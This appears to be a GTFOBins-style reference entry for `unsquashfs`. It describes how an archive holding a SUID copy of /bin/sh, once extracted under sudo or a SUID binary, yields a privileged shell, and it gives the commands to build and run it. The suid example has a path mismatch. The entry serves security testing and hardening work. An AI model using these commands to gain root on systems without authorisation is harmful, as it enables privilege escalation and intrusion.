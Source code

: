 ```yaml
---
description: |
  `unsquashfs`, the utility used to extract the contents of SquashFS file systems, preserves the permissions and ownership information of files and directories. This includes the suid (set user ID) and sgid (set group ID) bits, which can be set on executable files to allow them to be run with the privileges of the file owner or group owner, respectively. Prepare an archive beforehand with the following commands as root:

  ```
  cp /bin/sh .
  chmod +s sh
  mksquashfs sh shell.sqfs
  ```

  Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).
functions:
  sudo:
    - code: |
        sudo unsquashfs ./shell.sqfs
        ./squashfs-root/sh -p
  suid:
    - code: |
        unsquashfs -d $TF ./x.sqfs
        ./squashfs-root/sh -p
---
```

